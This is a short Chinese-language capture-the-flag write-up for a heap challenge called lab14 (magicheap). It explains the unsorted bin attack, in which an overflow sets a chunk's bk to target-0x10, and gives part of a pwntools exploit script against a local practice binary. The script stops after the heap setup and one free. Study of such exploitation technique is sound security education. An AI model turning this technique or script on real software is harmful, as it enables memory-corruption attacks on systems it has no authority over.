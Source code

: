 
# lab14

> 考察unsorted bin attack
>
> unsorted bin attack的关键是把unsorted bin 的最后一个chunk(最先放进的)的bk改为target-0x10
>
> 使得target处的值变得很大
>
> 在做unsorted bin attack的时候虽然我们的目的是改bk，但是其实fd改掉了也没有影响，在unlink的时候fd没有用到。
>
> 但是这样unsortedbin 会坏掉

漏洞点：越界写

![image-20220918131614772](/assets/img/2022/image-20220918131614772.png)

这道题就用unsorted bin attack，把magic改为unsorted bin ，一个很大的数字![image-20220918131709962](/assets/img/2022/image-20220918131709962.png)



exp:

```python
from pwn import *


r = process('./magicheap')

context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def debug(cmd=''):
    gdb.attach(r, cmd)
    pause()

def create(size, context):
    r.recvuntil('Your choice :')
    r.sendline('1')
    r.recvuntil('Size of Heap :')
    r.sendline(str(size))
    r.recvuntil('Content of heap:')
    r.sendline(context)

def edit(index, size, context):
    r.recvuntil('Your choice :')
    r.sendline('2')
    r.recvuntil('Index :')
    r.sendline(str(index))
    r.recvuntil('Size of Heap :')
    r.sendline(str(size))
    r.recvuntil('Content of heap :')
    r.sendline(context)

def delete(index):
    r.recvuntil('Your choice :')
    r.sendline('3')
    r.recvuntil('Index :')
    r.sendline(str(index))

create(0x80, 'a') #0
create(0x30, 'b') #1   overflow
create(0x80, 'c') #2
create(0x30, 'b') #3   avoid merge to top

delete(2)
```